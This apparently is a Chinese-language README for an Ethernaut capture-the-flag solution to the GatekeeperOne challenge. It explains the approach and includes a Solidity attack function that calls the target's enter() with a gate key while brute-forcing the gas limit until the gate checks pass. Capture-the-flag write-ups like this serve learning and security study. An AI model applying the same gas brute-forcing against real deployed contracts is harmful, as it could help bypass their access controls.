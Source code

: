 # 13_GatekeeperOne Project

### 一、挑戰攻破 Ethernaut CTF 第 13 題： GatekeeperOne

- 勝利條件：通過 GatekeeperOne
- 知識儲備：修飾器、gasleft()、import hardhat/console.log、精算 gas limit、合約迴圈

### 二、解題思路：

1. 將 GatekeeperOne 拆分成 part1, part2, part3，再搭配 hardhat/console.log 精算氣與鑰匙
2. 即便是在已部屬在測試網的合約，無法使用 hardhat/console.log，仍可以添加公開變數，再腳本用 getter 函數去調查除錯

### 三、Solidity：

```solidity
function attack(uint64 gasToUse) public {
    // Call the enter function of GatekeeperOne with the gateKey
    // gas offset usually comes in around 210, give a buffer of 60 on each side
    for (uint256 i = 0; i < 500; i++){
        (result, ) = gatekeeperOneAddress.call{gas: gasToUse + i}(abi.encodeWithSignature("enter(bytes8)", gateKey));
        if (result) {
            // 神秘數字是256
            gasOffset = i;
            result = true;
            break;
        } else {
            looptime += 1;
            continue;
        }
    }
    // require(success, "Attack failed");
}    
```

1. gatekeeperOneAddress.call 在失敗的時候，不會自動回滾交易。程序仍會繼續執行